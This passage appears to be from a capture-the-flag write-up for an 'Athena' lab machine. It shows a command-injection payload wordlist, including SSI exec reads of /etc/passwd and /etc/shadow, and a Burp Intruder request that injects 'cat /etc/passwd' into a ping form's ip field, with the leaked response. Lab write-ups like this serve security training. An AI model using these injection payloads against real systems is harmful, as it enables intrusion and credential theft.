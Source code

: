 
```bash
:~/Athena# head wordlist.txt
&lt;!--#exec%20cmd=&quot;/bin/cat%20/etc/passwd&quot;--&gt;
&lt;!--#exec%20cmd=&quot;/bin/cat%20/etc/shadow&quot;--&gt;
&lt;!--#exec%20cmd=&quot;/usr/bin/id;--&gt;
&lt;!--#exec%20cmd=&quot;/usr/bin/id;--&gt;
/index.html|id|
;id;
;id
;netstat -a;
;system('cat%20/etc/passwd')
;id;
```

<br>
<h3>Burp Suite Intruder</h3>

<img width="721" height="363" alt="image" src="https://github.com/user-attachments/assets/3988fb2d-249b-49f6-a67a-d3faa824cce7" />


<img width="1177" height="466" alt="image" src="https://github.com/user-attachments/assets/9b23234e-4724-4d0f-b4d2-0e86f225594b" />

<p>ip=127.0.0.1%0Acat%20%2fetc%2fpasswd&submit=</p>

<p>

- root:x:0:0:root:/root:/bin/bash<br>
- ubuntu:x:1000:1000:ubuntu,,,:/home/ubuntu:/bin/bash<br>
- athena:x:1001:1001::/home/athena:/bin/bash</p>


<p><em>Request</em></p>

```bash
POST /myrouterpanel/ping.php HTTP/1.1
...

ip=127.0.0.1%0Acat%20%2fetc%2fpasswd&submit=
```

<p><em>Response</em></p>

```bash
HTTP/1.1 200 OK
Date: Tue, xx Aug 2025 xx:xx:xx GMT
Server: Apache/2.4.41 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 3409
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

<pre>PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.022 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.031 ms
64 bytes from 127.0.0.1: icmp_seq=3 ttl=64 time=0.033 ms
64 bytes from 127.0.0.1: icmp_seq=4 ttl=64 time=0.034 ms

--- 127.0.0.1 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3071ms
rtt min/avg/max/mdev = 0.022/0.030/0.034/0.004 ms
root:x:0:0:root:/root:/bin/bash
...
ubuntu:x:1000:1000:ubuntu,,,:/home/ubuntu:/bin/bash
...
athena:x:1001:1001::/home/athena:/bin/bash
```
